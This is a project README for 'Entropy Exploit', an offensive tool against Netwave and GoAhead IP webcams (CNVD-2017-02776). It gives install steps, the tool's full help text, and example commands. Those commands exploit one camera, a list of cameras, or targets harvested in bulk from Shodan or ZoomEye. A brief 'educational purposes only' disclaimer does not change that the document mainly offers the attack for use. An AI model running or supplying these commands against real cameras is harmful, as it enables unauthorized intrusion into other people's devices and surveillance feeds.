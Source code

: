 # Entropy Exploit (CNVD-2017-02776)

        _______   ____________  ____  ______  __
       / ____/ | / /_  __/ __ \/ __ \/ __ \ \/ /
      / __/ /  |/ / / / / /_/ / / / / /_/ /\  / 
     / /___/ /|  / / / / _, _/ /_/ / ____/ / / 
    /_____/_/ |_/ /_/ /_/ |_|\____/_/     /_/ 

<p align="center">
  <a href="http://entynetproject.simplesite.com/">
    <img src="https://img.shields.io/badge/entynetproject-Ivan%20Nikolsky-blue.svg">
  </a>
  <a href="https://github.com/entynetproject/entropy/releases">
    <img src="https://img.shields.io/github/release/entynetproject/entropy.svg">
  </a>
  <a href="https://ru.m.wikipedia.org/wiki/Python">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://exploit-db.com/">
      <img src="https://img.shields.io/badge/exploit-CNVD-red.svg?maxAge=2592000">
 </a>
  <a href="https://github.com/entynetproject/entropy/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/entynetproject/entropy.svg">
  </a>
  <a href="https://github.com/entynetproject/entropy/wiki">
      <img src="https://img.shields.io/badge/wiki%20-entropy-lightgrey.svg">
 </a>
  <a href="https://mobile.twitter.com/entynetproject">
    <img src="https://img.shields.io/badge/twitter-entynetproject-blue.svg">
 </a>
</p>

# Entropy credits

    Name    : Entropy Exploit
    Writer  : Entynetproject
    Version : 1.0 (first release)
    Exploit : CNVD-2017-02776
    Github  : https://github.com/entynetproject
    Site    : http://entynetproject.simplesite.com/

# About entropy exploit

    INFO: Entropy Exploit is an IP webcamera 
    exploit also named CNVD-2017-02776, this is 
    powerful exploitation tool for webcams testing!

# How to install entropy

    INFO: Entropy Exploit will be installed into /bin and 
    /usr/local/bin as /bin/entropy and /usr/local/bin/entropy!

> cd entropy

> chmod +x install.sh

> ./install.sh

# How to uninstall entropy

> cd entropy

> chmod +x uninstall.sh

> ./uninstall.sh

# How to execute entropy

> entropy --help

    usage: entropy [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT] [-t TASKS]
                   [-c COUNT] [-q | -v]
                   [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]

    Please use CNVD-2017-02776 exploit just in educational purposes!

    optional arguments:
      -h, --help            show this help message and exit
      -b {1,2}, --brand {1,2}
                            Choose the brand of IP Camera. 1 - represents Netwave,
                            2 - represents GoAhead.
      -o OUTPUTFILE, --output OUTPUTFILE
                            Output into path you input. The default path in dir
                            /tmp
      -T TIMEOUT, --timeout TIMEOUT
                            The default timeout for netwave is 300s.
      -t TASKS, --task TASKS
                            Run TASKS number of connects in parallel, default is
                            10.
      -c COUNT, --count COUNT
                            The number of IP you want to get from ZoomEye. The
                            maximum is 2000. Default is 100.
      -q, --quiet           Quiet mode.
      -v, --verbose         Show more informations.
      -i IP, --ip IP        The camera's IP and port. Example: 192.168.1.100:80
      -l INPUTFILE, --list INPUTFILE
                            The camera's IP:port address file. The file's format
                            like this 192.168.1.100:80 in a line.
      --shodan SHODAN       Your Shodan API Key. You can get help from
                            https://www.shodan.io/
      --zoomeye ZOOMEYE     Your ZoomEye API Key. You can get help from
                            https://www.zoomeye.org/api

# Entropy exploit examples

> If you want to exploit a local camera, run
    
    entropy -b 1 -i 192.168.1.100:80 -v  
    
> If you want to exploit cameras from list, run

    entropy -b 2 -l iplist.txt -v
    
> If you want to exploit cameras from database, run

    entropy -b 2 -v --shodan [API key]

# Terms of use

    This tool is only for educational purposes only.
    Use this tool wisely and never without permission.
    I am not responsible for anything you do with this tool.

# Entropy MIT license

    MIT License

    Copyright (C) 2019, Entynetproject. All Rights Reserved.

    Permission is hereby granted, free of charge, to any person obtaining a copy
    of this software and associated documentation files (the "Software"), to deal
    in the Software without restriction, including without limitation the rights
    to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
    copies of the Software, and to permit persons to whom the Software is
    furnished to do so, subject to the following conditions:

    The above copyright notice and this permission notice shall be included in all
    copies or substantial portions of the Software.

    THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
    IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
    OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
    SOFTWARE.

# Thats all!

